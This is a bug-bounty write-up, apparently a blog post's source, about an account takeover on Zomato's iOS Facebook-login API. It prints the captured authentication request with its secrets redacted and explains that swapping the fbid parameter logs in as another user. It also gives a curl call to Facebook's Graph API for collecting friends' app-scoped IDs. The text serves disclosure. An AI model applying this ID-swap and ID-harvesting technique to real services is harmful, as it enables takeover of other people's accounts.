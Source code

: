 ```yaml
---
layout: post
title:  Zomato Account Takeover using Victim's Facebook ID
date:   2017-08-20 16:00:00 +0530
categories: [Mobile Security]
---
```


This was an issue, I reported to Zomato a few months back where an attacker could have compromised any user's account who had linked their Facebook with Zomato. And since most of the people use Login with Facebook nowadays, I was actually able to gain access to over 1000s of user accounts.

While performing login with Facebook on iOS app, this is the request that was sent to the server:


```sh
POST /v2/auth.json?presentlat=xxxxxxx&useragent=model_iPod%20touch_os_9.3.5v_7.0_t_iPod5,1&app_version=7.0&session_id=41&app_run_id=21&presentlon=xxxxxxxx&lang=en&push_permission=1&isFacebook=true&channel_url=&uuid=█████████ HTTP/1.1
Host: 1api.zomato.com
Accept-Language: en-IN;q=1, nl-IN;q=0.9, it-IN;q=0.8, de-IN;q=0.7, fr-IN;q=0.6
Accept: /
User-Agent: Zomato/6.6.9 (iPod touch; iOS 9.3.5; Scale/2.00)
X-Zomato-API-Key: █████████
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: keep-alive
app_version: 7.0
Cookie: PHPSESSID=██████████; fbcity=1; fbtrack=c9bce885893ad8387ae3dc855d6f5b97; zl=en
Content-Length: 984
Accept-Encoding: gzip

access_token=&client_id=zomato_ios_v2&fb_permission=%5B%22user_friends%22%2C%22email%22%2C%22contact_email%22%2C%22public_profile%22%5D&fb_token=████████&fbdata=%7B%0A%20%20%22link%22%20%3A%20%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2Fapp_scoped_user_id%5C%2F█████%5C%2F%22%2C%0A%20%20%22id%22%20%3A%20%22██████████%22%2C%0A%20%20%22first_name%22%20%3A%20%22Bhavuk%22%2C%0A%20%20%22name%22%20%3A%20%22Bhavuk%20Jain%22%2C%0A%20%20%22gender%22%20%3A%20%22male%22%2C%0A%20%20%22last_name%22%20%3A%20%22Jain%22%2C%0A%20%20%22email%22%20%3A%20%22█████████%40yahoo.co.in%22%2C%0A%20%20%22locale%22%20%3A%20%22en_US%22%2C%0A%20%20%22timezone%22%20%3A%205.5%2C%0A%20%20%22updated_time%22%20%3A%20%222016-12-24T21%3A55%3A30%2B0000%22%2C%0A%20%20%22verified%22%20%3A%20true%0A%7D&fbid=█████

```

Looking at it carefully, I found the API was also sending **fbid** in the requested parameters. So I tried to change it with another Facebook ID. But how to find a victim's Facebook ID as they are different for different apps. By using Facebook's Graph API, you can find a list of your friends as well second degree friends who are using Login with Facebook for Zomato. This Graph API request can return your friends Facebook IDs by sending your Facebook generated Acceess Token.

```sh
curl -i -X GET \
"https://graph.facebook.com/v2.10/me/friends?access_token=xxxxxxxx"
```
Now by using this Facebook ID and replacing it in the Zomato's request, it bypassed the login and gave me a complete control over the victim's account. Game Over!

